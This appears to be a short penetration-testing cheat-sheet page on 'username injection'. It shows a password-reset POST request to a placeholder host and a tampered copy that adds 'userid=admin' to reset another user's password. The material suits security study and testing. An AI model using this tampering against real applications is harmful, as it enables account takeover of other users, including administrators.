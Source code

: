 # Username Injection

It may be possible to inject a different username and/or email address, or possible hidden input values the requests.

Applications often reuse and share the same codebase, sometimes the same functions used by users to reset their own password. This may allow use to inject input that would otherwise be ignored by the web server.



Below is an example of a reset request to a web server.

```http
POST /reset.php HTTP/1.1
Host: broken.localhost
Content-Length: 73
Cache-Control: no-transform
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

oldpasswd=Password123!&newpasswd=Safer123!&confirm=Safer123!&submit=submit
```

We can tamper with the request by adding the _<mark style="color:orange;">**userid**</mark>_ field, and change the password for another user. Code Changed: <mark style="background-color:green;">\&userid=admin</mark>

<pre class="language-http"><code class="lang-http"><strong>POST /reset.php HTTP/1.1
</strong>Host: broken.localhost
Content-Length: 73
Cache-Control: no-transform
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

oldpasswd=Password123!&#x26;newpasswd=Safer123!&#x26;confirm=Safer123!&#x26;userid=admin&#x26;submit=submit
</code></pre>
